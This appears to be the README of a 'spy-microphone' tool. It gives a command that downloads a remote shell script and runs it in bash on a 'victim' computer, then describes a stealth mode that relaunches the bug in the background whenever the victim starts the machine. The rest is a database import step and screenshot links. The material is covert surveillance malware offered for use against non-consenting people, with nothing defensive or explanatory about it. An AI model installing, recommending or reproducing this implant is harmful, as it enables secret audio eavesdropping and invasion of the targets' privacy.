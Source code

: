 
   For use spy-microphone please follow instructions <br><br>

   Easy remote command for spy <br>
   Open the terminal of any computer want to spy and run this: <br>
   bash <(curl -s https://raw.githubusercontent.com/makdosx/spy-microphone/master/shell/autorun.sh) <br><br>

    i) Run the file autorun.sh in  the computer of victim and set your params 
       Stealth Mode <br>
         With this feature the bug will continue if it works whenever the victim opens the computer 
         automatically by running in the background.
         
  ii) import the sql file in to your database 


  iii) The spy-microphone ready to use 

![1](png/1.png) <br> <br> <br> 

![2](png/2.png) <br> <br> <br> 

![3](png/3.png) <br> <br> <br> 

![4](png/4.png) <br> <br> <br> 

![5](png/5.png) <br> <br> <br> 

![0](png/0.jpg) 
